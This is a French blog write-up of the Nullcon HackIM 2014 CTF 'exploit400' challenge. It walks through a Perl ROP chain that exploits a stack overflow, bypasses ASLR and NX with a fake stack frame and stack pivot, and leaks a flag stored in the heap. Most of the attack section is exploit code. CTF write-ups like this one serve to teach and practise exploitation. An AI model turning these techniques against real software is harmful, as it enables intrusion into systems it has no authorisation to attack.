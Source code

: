```yaml
---
title: NULLCON-CTF-2014 - Exploit 400
date: 2014-01-26
tags: ctf
author: Tosh
layout: post
---
```


Voici un petit write-up du challenge exploit400, du CTF Nullcon Hackim 2014.

Vous pouvez trouver le binaire ici : [exploit400](https://repo.t0x0sh.org/ctf/2014-nullcon/exploit400)
Et la source ici : [exploit400.c](https://repo.t0x0sh.org/ctf/2014-nullcon/exploit400.c)

Le fait que nous avions accés au code source du programme nous a bien facilité la tâche.

Le programme est on ne peut plus simple :
- Il ouvre et lit le flag de validation, et le stock dans le heap.
- Il demande ensuite une saisie, qui abouti facilement à un stack based overflow.

Il n'y a pas beaucoup de protection, et j'ai programmé mon exploit en prenant en compte l'ASLR probable :

```
	RELRO      STACK CANARY      NX            PIE         RPATH      RUNPATH      FILE
	No RELRO   No canary found   NX enabled    No PIE      No RPATH   No RUNPATH   exploit400
```

Comment lire le flag stocké en mémoire ? J'ai choisi de faire du ROP afin de bypass l'ASLR et NX.

La première chose que j'ai fais, c'est mettre à zéro 4 bytes du segment DATA. Pour se faire, j'ai utilisé la fonction read, présente dans la @PLT, afin d'envoyer 0x00000000.

```perl
	$payload .= pack('L', 0x080483d0); # read@plt
	$payload .= pack('L', 0x080486a7); # pop3;ret
	$payload .= pack('L', 0x00000000); # stdin
	$payload .= pack('L', 0x080498d8); # DATA
	$payload .= pack('L', 4); # size
```

Ensuite, j'exécute un malloc, histoire d'avoir une adresse du heap, et connaître ainsi l'emplacement du flag.


```perl
	$payload .= pack('L', 0x080483f0); # malloc@plt
	$payload .= pack('L', 0x080483a0); # pop;ret
	$payload .= pack('L', 0x100); # size
```

L'adresse du flag est alors à : EAX - OFFSET. Avec quelques gadgets, je stocke cette valeur en mémoire. (dans la zone initialisé grâce à la fonction read)

```perl
	$payload .= pack('L', 0x080483a0); # pop ebx; ret
	$payload .= pack('L', 0x080498d8-0x5d5b04c4); # DATA

	$payload .= pack('L', 0x080484de); # add [ebx+0x5d5b04c4],eax
```

Je m'envois alors cette valeur via la fonction write

```perl
	$payload .= pack('L', 0x08048440); # write@plt
	$payload .= pack('L', 0x080486a7); # pop3;ret
	$payload .= pack('L', 0x00000001); # stdout
	$payload .= pack('L', 0x080498d8); # DATA
	$payload .= pack('L', 4); # size
```

J'ai choisi d'utiliser une technique de fake-stack-frame + stack-pivot afin d'avoir un code "dynamique" (je calcule comme ça les offsets du heap dans l'exploit, et je peux créer la fake-stack-frame en conséquence). Je reçois ma stack via read(), que je stock dans le segment DATA.
J'exécute ensuite une instruction du type pop ebp; leave; ret; afin de changer de stack-frame.

```perl
	$payload .= pack('L', 0x080483d0); # read@plt
	$payload .= pack('L', 0x080486a7); # pop3;ret
	$payload .= pack('L', 0x00000000); # stdin
	$payload .= pack('L', 0x080498d8); # DATA
	$payload .= pack('L', 0x130); # size

	$payload .= pack('L', 0x080484e3); # pop ebp ; ret
	$payload .= pack('L', 0x080498d4);
	$payload .= pack('L', 0x08048511); # leave; ret
```

Envois du payload

```perl
	print $sock $payload;
```

Mise à zéro d'une variable en mémoire (premier read)

```perl
	print $sock "\x00\x00\x00\x00";
```

Lecture de l'adresse du HEAP envoyée

```perl
	$sock->read($r, 21);
	$sock->read($r, 4);
	$r = unpack('L', $r);
```

Création + envoi de la fake-stack-frame. Il s'agit s'implement d'un write() envoyant le flag.

```perl
	$stack .= pack('L', 0x08048440); # write@plt
	$stack .= pack('L', 0x080486a7); # pop3;ret
	$stack .= pack('L', 0x00000001); # stdout
	$stack .= pack('L', $r-0x48); # FLAG
	$stack .= pack('L', 100); # size

	print $sock $stack;
```

Réception du flag et validation du challenge !!!

```perl
	while($r = <$sock>) {
		print $r;
	}
```

Un challenge simple, mais plutôt marrant.

Voici l'exploit entier : [exploit400.pl](https://github.com/t00sh/ctf/blob/master/nullcon_ctf_2014/exploit400.pl)
